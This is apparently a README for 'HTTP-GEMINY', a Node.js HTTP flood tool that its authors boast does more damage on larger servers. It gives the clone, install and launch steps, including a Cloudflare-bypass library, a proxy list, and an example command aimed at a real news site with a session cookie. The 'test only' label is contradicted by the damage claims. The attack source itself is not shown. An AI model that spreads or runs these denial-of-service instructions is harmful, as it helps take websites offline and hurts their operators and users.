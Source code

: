 #                                                                SCRIPT REMASTERISED BY DARLINGSH & SST-SH FOR SST-DESTROYER.NET
# Made for test only this script is very powerfull on small server, 
#
# Made for test only this script is very powerfull on small server, more cpu ram more damage that logique
#
# HTTP-GEMINY
#
######################################################################################################################################################################

🧨 This script is encoded to prevent skido change script🧨

#Clone and Install Script

    git clone https://github.com/DarlingSh1337/HTTP-SENPAI/

    cd HTTP-GEMINY

#Installation Tutoriel for Skido

INSTALL NODEJ SAND NPM

apt install nodejs apt install npm

yum install nodejs yum install npm

    npm i request

    npm i cloudscraper
    
    npm i fs
    
    npm i crypto
    
    npm i hex
    
    npm i events

    CREATE OR UPDATE HTTP.TXT FILE IN DIRECTORY and put PROXYLIST on it

#Launch Script

    node http-geminy.js url proxylist.txt time method coockie(if you whant you dont need coockie)

    node http-geminy.js https://www.zataz.com/ http.txt 90 GET PHPSESSID:tisv10jeevnd5k7lrbt1a5h4l7

